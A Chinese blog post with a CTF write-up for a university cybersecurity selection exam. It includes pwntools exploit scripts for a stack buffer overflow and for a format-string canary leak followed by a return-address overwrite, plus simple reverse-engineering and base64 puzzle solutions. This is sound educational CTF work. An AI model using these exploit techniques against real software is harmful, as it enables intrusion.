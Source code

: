<!--yml
category: 未分类
date: 2022-04-26 14:20:41
-->

# 【CTF题解NO.00001】西安电子科技大学网络与信息安全学院2020年网络空间安全专业实验班选拔考试 - write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/108068170](https://blog.csdn.net/arttnba3/article/details/108068170)

### 【CTF题解NO.00001】西安电子科技大学网络与信息安全学院2020年网络空间安全专业实验班选拔考试 - write up by arttnba3

* * *

# 0x00.绪论

最近这几天网络与信息安全学院搞网络空间安全专业的实验班考试，作为蒟蒻的我抱着试一试的心态混入了考试的大佬之中XDD

~~说不定再过几天我就从计科院人变成网信院人le~~

现在行政班是计科院，教学班是网信院，迷惑子…

> 听说题都是从CMISCCTF那边拿过来的，srds，作为一个baby pwner感觉题目没啥技术含量（虽然说我也只会做Pwn…

* * *

# 0x01.PWN (AK)

pwn只有两道基础题，哪怕是我这个主攻pwn的蒟蒻也能十分钟就写出来了呢www

* * *

## cmcc_stack

[点击下载-bin](https://arttnba3.cn/download/cmiscctf2020/pwn_cmcc_stack/bin "点击此处下载原题")
惯例`checksec`，只开了NX保护，四舍五入就是没有保护

![img.png](img/80907fbd153462d35bf2e90c87acbe2b.png)

拖入IDA，发现当v5的值为-559038737（0xdeadbeef）时可以getflag

![在这里插入图片描述](img/784a30c18d27046489f9c7635f1a5443.png)
![在这里插入图片描述](img/244221c10cae2eb1f0bd4c8866ead908.png)

read函数读入到地址`esp+0x80-0x68`，v5的地址是`esp+0x7c`，所以我们只需要覆盖掉v5的值为`0xdeafbeef`即可getflag

故构造payload如下

```
from pwn import *
pl = b'A'*0x64 + p32(0xdeadbeef)

p = process('./bin')
p.sendline(pl)
p.interactive() 
```

输入即可得到flag

![在这里插入图片描述](img/e81308405c5602666aad015c1c981765.png)

* * *

## pwn_canary

[点击下载-canary](https://arttnba3.cn/download/cmiscctf2020/pwn_pwn_canary/canary "点击此处下载原题")
惯例的`checksec`，开了NX保护和Canary，说明我们不能像之前那样轻松地溢出了，需要绕过Canary
![在这里插入图片描述](img/a68314b9cb6bbb93c19bd7ffe530b60b.png)

拖入IDA进行分析，我们可以发现在`fun()`函数处存在溢出，偏移量为`0x70`，故考虑绕过canary后控制程序返回至`getflag()`

![在这里插入图片描述](img/f1833087ca6f2eda60f7ba94cd8ec84a.png)
![在这里插入图片描述](img/792feeab75af8c1a2c3e235dd91174dd.png)

![img.png](img/6e6d5e787f60c69bd261cbe316e2092f.png)

如何绕过canary？在main函数中我们可以看到其先读入format再输出format，存在格式化字符串漏洞，我们可以利用这个来输出canary的值，再覆盖掉即可

故构造payload如下

```
from pwn import *
pl1 = '%7$x'
get_flag = 0x804863d

p = process('./canary')
p.sendline(pl1)
cnry = int(p.recv(),16)
pl2 = 26*p32(cnry) + p32(get_flag)
p.sendline(pl2)
p.interactive() 
```

得到flag

![在这里插入图片描述](img/092c01e3de1b75eef1e0e834bbc3c1e4.png)

* * *

# 0x02.reverse

只解出了一道题55555

* * *

## Babyre

[点击下载-babyre](https://arttnba3.cn/download/cmiscctf2020/Reverse-Babyre/babyre.zip "点击此处下载原题")
.net逆向
拖入dnSpy即得flag

![img.png](img/669461cd71756465e768897171bccde6.png)

* * *

# 0x03.misc

只写出来两道最基础的签到题XD

* * *

## hello

首先给了这样一串文本

```
Q01JU0NDVEZ7V2VsY29tZV9DVEZlciF9 
```

base64解码即得flag

```
CMISCCTF{Welcome_CTFer!} 
```

* * *

## encrypt

首先给了这样一串文本

```
UTAxSlUwTkRWRVo3Um1GclpWOWxibU55ZVhCMGFXOXVmUT09 
```

base64解码得到这样一串文本

```
Q01JU0NDVEYlN0JGYWtlX2VuY3J5cHRpb24lN0Q= 
```

很明显的base64特征，再次base64解码即得flag

```
CMISCCTF{Fake_encryption} 
```

* * *

其他的题都不会写了XDDDD果然我还是太菜了QAQ